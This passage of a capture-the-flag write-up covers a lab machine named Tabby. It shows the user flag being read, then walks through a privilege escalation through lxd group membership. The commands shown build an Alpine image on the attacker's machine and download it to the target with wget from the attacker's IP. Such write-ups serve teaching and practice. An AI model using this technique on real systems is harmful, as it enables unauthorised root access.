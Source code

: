 ```shell
cd /home/ash 
ash@tabby:~$ cat user.txt 
cat user.txt 
19daa---REDACTED---7de5f
```
![User Shell](/assets/img/posts/tabby/user.png)

# Root Shell
Checking the **id** of the user ash had revealed that they are part of the **lxd** group. Google-Fu had identified a 
privilege escalation method[^f6][^f7] through lxd installation and group permissions.
<br>
>*LXD does not attempt to match the privileges of the calling user. There are multiple methods to exploit this. One such 
> method is to use the LXD API to mount the host’s root filesystem into a container.* 
> **Detailed info on LXD and the exploitation on 
>[LXD Privilege Escalation](https://4m0r.github.io/posts/Lxd-privilege-escalation/)**

The process involves downloading and building the latest Alpine image as root user on the attacking machine, 
transferring it to the target, importing and initializing the image inside a container, and mounting the container 
inside the root directory. The same process was followed and a reverse shell had been obtained through the container, as
 shown on the section given below. 
```shell 
---ATTACKING HOST---
[manjaro lxd-alpine-builder]# ./build-alpine  
which: no apk in (/home/whit3d3vil/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl:/var/li
b/snapd/snap/bin:/opt/oracle/instantclient_19_6:/home/whit3d3vil/TargetRecon:/usr/sbin:/usr/bin:/sbin:/bin) 
Determining the latest release... v3.12 
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64 
Downloading alpine-mirrors-3.5.10-r0.apk 
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' 
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' 
Downloading alpine-keys-2.2-r0.apk 
---SNIP---
(18/19) Installing alpine-keys (2.2-r0) 
(19/19) Installing alpine-base (3.12.0-r0) 
Executing busybox-1.31.1-r19.trigger 
OK: 8 MiB in 19 packages 

---TARGET---
ash@tabby:~$ wget http://10.10.14.50:8080/alpine-v3.12-x86_64-20200803_2036.tar.gz 
<14.50:8080/alpine-v3.12-x86_64-20200803_2036.tar.gz 
--2020-08-03 15:24:18--  http://10.10.14.50:8080/alpine-v3.12-x86_64-20200803_2036.tar.gz 
Connecting to 10.10.14.50:8080... connected. 
HTTP request sent, awaiting response... 200 OK 
Length: 3202094 (3.1M) [application/gzip] 
Saving to: ‘alpine-v3.12-x86_64-20200803_2036.tar.gz’ 
```